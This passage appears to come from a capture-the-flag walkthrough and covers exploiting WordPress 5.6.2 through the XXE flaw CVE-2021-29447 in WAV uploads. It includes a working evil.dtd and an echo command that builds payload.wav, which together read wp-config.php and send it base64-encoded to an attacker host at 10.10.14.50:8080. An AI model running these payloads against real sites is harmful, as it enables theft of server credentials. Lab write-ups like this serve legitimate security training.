 Successful login to `/wp-login` with the `manager` account.


## 🧩 Phase 4 — WordPress Exploitation (XXE, CVE-2021-29447)

### WordPress Version Identification

**Version detected:** WordPress 5.6.2 running PHP 8.0.24

### Vulnerability Research

A quick search reveals the <span class="text-highlight-orange">**CVE-2021-29447**</span> vulnerability, allowing XXE attack via the Media Library.

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-bug mr-2"></i>CVE-2021-29447 - XXE Injection
    </h4>
    <div class="space-y-2 text-gray-700 dark:text-gray-300">
        <div class="grid md:grid-cols-2 gap-4">
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Affected Application:</span> WordPress < 5.6.2
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Type:</span> XXE Injection (Authenticated)
            </div>
        </div>
        <div>
            <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score:</span> 7.1 (High)
        </div>
        <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description:</span><br>
            The WAV audio file parsing function in WordPress does not properly validate XML entities. An authenticated attacker can upload a malicious WAV file containing external XML entities to read arbitrary files on the server.
        </div>
    </div>
</div>

### XXE Payload Creation

**evil.dtd file:**

```xml
<\!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
<\!ENTITY % init "<\!ENTITY &#x25; trick SYSTEM 'http://10.10.14.50:8080/?p=%file;'>">
```

**payload.wav file:**

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><\!DOCTYPE ANY[<\!ENTITY % remote SYSTEM "http://10.10.14.50:8080/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```
